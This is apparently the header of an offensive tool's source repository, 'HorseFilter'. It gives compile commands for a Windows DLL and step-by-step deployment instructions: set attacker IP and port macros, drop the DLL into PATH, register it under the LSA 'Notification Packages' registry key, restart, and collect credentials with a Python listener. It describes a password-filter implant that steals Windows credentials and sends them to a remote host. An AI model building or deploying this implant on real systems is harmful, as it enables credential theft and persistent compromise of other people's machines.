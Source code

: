# HorseFilter

/* compile with:

x86_64-w64-mingw32-windres horsefilter.rc -o horsefilter.o
x86_64-w64-mingw32-gcc horsefilter.c horsefilter.o -o horsefilter.dll -shared -lws2_32

*/

// to use:
// change port and ip macros
// add compiled dll anywhere in PATH
// append dll name (no extension) to
//     "HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages"
// and restart
// catch creds with horsefilter.py
